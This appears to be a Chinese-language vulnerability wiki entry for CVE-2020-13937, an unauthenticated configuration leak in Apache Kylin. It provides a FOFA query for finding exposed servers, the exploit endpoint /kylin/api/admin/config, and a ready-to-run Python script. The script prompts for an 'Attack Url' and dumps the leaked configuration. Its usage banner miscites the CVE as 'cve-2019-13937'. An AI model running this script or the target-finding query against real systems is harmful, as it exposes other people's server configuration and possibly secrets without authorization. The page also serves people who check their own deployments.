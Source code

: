# Apache Kylin的未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息。

### FOFA

> [!NOTE]
>
> app="APACHE-kylin"

## 漏洞影响

> [!NOTE]
>
> Apahche Kylin 2.x.x
>
> Apahche Kylin <= 3.1.0
>
> Apahche Kylin 4.0.0-alpha

## 漏洞复现

根据漏洞情报

![](http://wikioss.peiqi.tech/vuln/apache kylin-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞利用POC为  http://xxx.xxx.xxx.xxx/kylin/api/admin/config

![](http://wikioss.peiqi.tech/vuln/apache kylin-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞检测POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Kylin 2.x.x <= 3.1.0 Kylin 4.0.0-alpha            \033[0m')
    print('+  \033[36m使用格式: python3 cve-2019-13937.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/kylin/api/admin/config"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "config" in response.text:
            print("\033[32m[o] 存在Apache Kylin的未授权配置泄露\n[o] 响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/apache kylin-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

##  Goby && POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Apache_Kylin_Unauthorized_configuration_disclosure.json

![](http://wikioss.peiqi.tech/vuln/kylin-25.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

### 参考

[CVE-2020-13937|Apache Kylin的未授权配置泄露漏洞，腾讯安全全面支持检测](https://s.tencent.com/research/bsafe/1156.html)